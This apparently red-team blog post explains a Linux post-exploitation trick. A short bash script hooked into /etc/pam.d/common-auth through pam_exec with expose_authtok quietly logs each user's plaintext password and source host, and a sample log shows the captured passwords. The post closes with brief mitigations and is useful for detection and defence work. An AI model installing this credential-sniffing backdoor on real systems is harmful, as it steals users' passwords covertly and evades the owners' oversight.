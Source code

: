 ```yaml
---
title: "Post Exploitation: Sniffing Logon Passwords with PAM"
date: 2022-06-26T22:50:18-08:00
draft: true
tags: [
        "pentest", "red","research"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Post Exploitation: Sniffing Logon Passwords with PAM"
  description:  "Living off the land PAM usage to install a backdoor for password grabbing."
  image: "https://embracethered.com/blog/images/2022/pam.auth-config.png"
---
```



Pluggable Authentication Modules (PAM) on Unix based systems are useful to change logon behavior and enforce authentication via various means.

In "Red Team Strategies" the chapter "Protecting the Pentester" walks the reader through the configuration of a PAM module to get notified in real-time via a pop-up when someone logs on to the machine (e.g. system compromise).

But there are also **bad things** that can be done with PAM (especially post-exploitation) and this is what this post is about.

This post discusses a living-off-the-land PAM tactic that grabs passwords of logons, and we also discuss detection techniques.

Let's get going.

Assume that during a red team exercise a Linux host was compromised.

### Creation of the toomanysecrets.sh script

First, we create a bash script that will be invoked whenever a new authentication occurs.

```
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
```

The variables are PAM specific and will become available via the `pam_exec.so` module. 

Here is the meaning of the variables:

* **$PAM_USER:** The username that was entered.
* **$PAM_RHOST:** The remote host (typically the IP Address)
* **$(cat -):** This reads `stdin`, and will contain the password that the script grabs
* The results are piped into a log file at `/var/log/toomanysecrets.log` 

To prevent all users from reading the file consider pre-creating it and running `chmod`, e.g.:

```
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
```

Now let's plug this script into the PAM pipeline.

### Updating the PAM configuration file `common-auth` 

Next, the PAM configuration file needs to be updated the `pam_exec` module will be used to invoke the script. 

There are various config files located in `/etc/pam.d/`, and we pick `common-auth`.

```
sudo nano /etc/pam.d/common-auth
```

On the very bottom of the file, add the following authentication module:

`auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh`

The options have the following meaning:

* **optional:** Authenticaiton shouldn't fail if there is an error (it's not a required step)
* **pam_exec.so:** This is the living off the land PAM module that can invoke arbitrary scripts 
* **expose_authtok:** This is the trick that allows to read the password via `stdin`
* **quiet:** Don't show any errors to the user (if something doesn't work)
* The last argument is the shell script that was created previously

[![PAM configuration change](/blog/images/2022/pam.auth-config.png)](/blog/images/2022/pam.auth-config.png)

Finally, make the file executable:

`sudo chmod 700 /usr/local/bin/toomanysecrets.sh`


### Logon and be surprised

Now, let's try this out and ssh from another machine, or login locally.

And then look at the log file:

```
$ sudo cat /var/log/toomanysecrets.log
 Sun Jun 26 23:36:37 PDT 2022 tom, Trustno1!, From: 192.168.1.149
 Sun Jun 26 23:37:53 PDT 2022 tom, Trustno1!, From:
 Sun Jun 26 23:39:12 PDT 2022 tom, Trustno1!, From: 192.168.1.149

```

Pretty neat, and tricky to catch.

## Mitigations

* Test EDR to catch modifications in PAM configurations (also binary patching or entirely replacing/backdooring existing ones)
* Review the PAM modules and there configuration in your environments
* Do a purple team exercise that focuses on PAM modules and related configuration files

## Conclusions

PAM modules are powerful, they can be used to lock machines down add MFA to SSH sessions or notify the user when logons occur. However, the can also be misused post-exploitation by an adversary to do a variety of things, including as shown in this post to grab credentials of users.


## References

* [pam_exec](https://linux.die.net/man/8/pam_exec)

